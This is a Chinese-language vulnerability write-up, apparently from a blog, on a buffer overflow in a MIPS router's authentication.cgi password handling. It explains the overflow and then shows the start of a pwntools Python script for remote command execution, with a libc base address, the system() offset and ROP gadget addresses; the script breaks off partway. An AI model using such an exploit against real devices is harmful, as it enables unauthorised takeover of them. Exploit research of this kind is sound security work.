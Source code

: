 <img src="IOT.assets\image-20210729151651474.png" alt="image-20210729151651474" style="zoom:50%;" />

这里让password 的长度刚好等于0x80那么在增加截断符时就会使buf_env第一个字符覆盖为\x00。使得FUN_0040aacc返回-1直接准备返回。

因为把password限制在0x80所以在后面再加一个`&payload=`.主要这里没有对参数长度和个数的检查。接下来利用起来就比较简答了基本操作。但是libc基址还是未知的

### 漏洞利用

````python
#!/usr/bin/env python
from pwn import*
import requests
import sys
import httplib


#httplib.HTTPConnection._http_vsn = 10
#httplib.HTTPConnection._http_vsn_str = 'HTTP/1.0'

context.arch = "mips"
context.endian = "little"
#"password=$(python -c "print 'A'*355^C&id=$(cyclic 600)"

url = sys.argv[1] + '/authentication.cgi'
cmd = sys.argv[2]

libc_addr = 0x2aaf800  #
system_off = 0x0053200
gadget_1 = 0x000368CC 	#addiu $s1,$s0,0xC                                   |  jalr  $s4
gadget_2 = 0x00057AE0 	#addiu $s1,$sp,0x40+var_28                           |  jalr  $s3
gadget_3 = 0x00328BC	#move $t9, $s1                                       |  jalr  $t9
gadget_4 = 0x00012E6C	#move $a0,$s1                                        |  jalr  $s6 
gadget_5 = 0x00023A34	#addiu $s1,$sp,0xB0+var_78                           |  jalr  $s2
def payload_maker():
	payload = "password=" + 'A'*0x80
````